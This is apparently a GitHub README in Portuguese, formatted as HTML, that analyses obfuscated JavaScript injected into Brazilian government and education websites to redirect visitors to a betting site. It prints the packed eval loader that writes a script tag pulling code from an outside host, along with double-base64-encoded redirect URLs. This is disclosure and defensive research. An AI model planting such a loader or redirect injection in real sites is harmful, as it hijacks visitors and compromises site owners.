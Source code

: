 [Documentation](https://linktodocumentation)  
<!DOCTYPE html>
<html>

<head>
  <title>Análise de Código Malicioso</title>
</head>

<body>

<h1>Detecção e Análise de Código Malicioso em dominios gov.br ou edu.br</h1>

<p>Este documento descreve a análise de um código malicioso encontrado em um site. O código em questão realiza várias ações suspeitas, como manipulação de URLs, redirecionamentos e ocultação de elementos.</p>

<h2>Visão Geral do Código</h2>

<p>O código é uma combinação de JavaScript e código obfuscado que executa várias ações em um determinado alvo.</p>

<h3>Script de Rastreamento de Análise</h3>
<p>Os primeiros scripts no código são para serviços de rastreamento, como Baidu Analytics e Google Analytics, para acompanhar as interações dos usuários no site.</p>

<h3>Decodificação de Dados</h3>
<p>O código contém uma função personalizada para decodificar dados obfuscados, usando decodificação base64 com operações adicionais.</p>

<h3>Manipulação de URLs</h3>
<p>O código manipula URLs usando a função de decodificação e atribui as URLs decodificadas de volta às variáveis.</p>

<h3>Análise de Cliente e Referenciador</h3>
<p>O código verifica o domínio de referência do usuário e compara com informações na matriz customerx.</p>

<h3>Detecção de Dispositivo Móvel</h3>
<p>Uma função tenta detectar se o usuário está em um dispositivo móvel com base no agente do usuário.</p>

<h3>Redirecionamento de URL e Injeção de Iframe</h3>
<p>Com base na análise anterior, o código redireciona o usuário para diferentes URLs ou injeta um iframe.</p>

<h3>Manipulação do DOM e Ocultação</h3>
<p>O código tenta manipular o DOM e ocultar elementos na página.</p>

<h3>Comportamento Malicioso ou Suspeito</h3>
<p>A obfuscação do código e suas ações suspeitas indicam comportamento malicioso.</p>

<h2>Exemplos de Código</h2>

<h3>Integração de Rastreamento e Análise</h3>
<h1> BUSCA NO BURP SUITE DE ALGUNS ALVOS</h1>

Claramente, consegui acha algumas formas que esses 167 sites governamentais e educacional sofreram esse ataque, porem não vou divulgar nesse documento, não vai ser apresentado as tecnicas. 

Aqui esta a requesição que fiz pelo burp suite

![Alt text](image/image.png)

Obeserve o titulo *404*, porem a solicitação retorno 200, dentro do corpo da resposta tem cereja do bolo que é script 

link acesso o codigo https://js.eventbr.xyz/vip/crazy.js

vamos tentar obeter algumas informação para entender melhor
alguns exemplos para onde estamos sendo direcionados. 
<pre>
<code>
 
 O restante do codigo pode ser encontrado em codigoofuscado.js

('m(d(p,a,c,k,e,r){e=d(c){f c.n(a)};h(!\'\'.i(/^/,o)){j(c--)r[e(c)]=k[c]||e(c);k=[d(e){f r[e]}];e=d(){f\'\\\\w+\'};c=1};j(c--)h(k[c])p=p.i(q s(\'\\\\b\'+e(c)+\'\\\\b\',\'g\'),k[c]);f p}(\'1["2"]["3"](\\\'<0 4="5/6" 7="8://9.a/b.c"></0>\\\');\',l,l,\'t|u|v|x|y|z|A|B|C|D|E|F|G\'.H(\'|\'),0,{}))', 44, 44, '|||||||||||||function||return||if|replace|while||13|eval|toString|String||new||RegExp|script|window|document||write|type|text|javascript|src|https|js.eventbr|xyz|vip/crazy|js|split'.split('|'), 0, {}))
</code>
</pre>
<p>Imagens</p>

![Alt text](image/image3.png)


<pre>
<code>
 O restante do codigo pode ser encontrado em js.eventbr.xyz_vip_crazy.js

url_pc_jpx="YUhSMGNITTZMeTkzZDNjdWQycGlaWFF1WTJ4MVlpOXBibVJsZUQ5aFptWnBiR2xoZEdWRGIyUmxQWFpwY0RnNE9BPT0=";

</code>
</pre>
Observe pela imagem que ele foi criptografado em base64, 2 vez para tentar ofuscar. 

![urls base64](image/image-1.png)

<h3>Manipulação de URLs e Redirecionamento</h3>
<pre>
<code>
url_pc_jpx = "https://www.wjbet.club/index?affiliateCode=vip888";
url_m_jpx = "https://www.wjbet.club/index?affiliateCode=vip888";
url_pc_jpx = mydecx(mydecx(url_pc_jpx));
url_m_jpx = mydecx(mydecx(url_m_jpx));

url_pc_frmex = "https://www.wjbet.club/index?affiliateCode=vip888";
url_m_frmex = "https://www.wjbet.club/index?affiliateCode=vip888";
url_pc_frmex = mydecx(mydecx(url_pc_frmex));
url_m_frmex = mydecx(mydecx(url_m_frmex));
</code>
</pre>

<h3>Screenshot</h3>

![Pequisa no google](image/pesquisa.png)

<p>Observe o endereço de ip</p>

![Alt text](image/requestIp.jpg)

<h2>Conclusão</h2>

<p>O código analisado exibe características típicas de comportamento malicioso, como obfuscação e manipulação de URLs. A análise detalhada fornece insights sobre as ações executadas pelo código.
Para quem quiser colaborar com a pesquisa esta aberto para todos.
Tive que ocultar muitas informação, não sou bom em documentação mais utilizei forma mais simples de tentar explicar para todos. </p>

</body>

</html>

## Authors  
- [@jacksonzacarias](https://www.github.com/jacksonzacarias)  
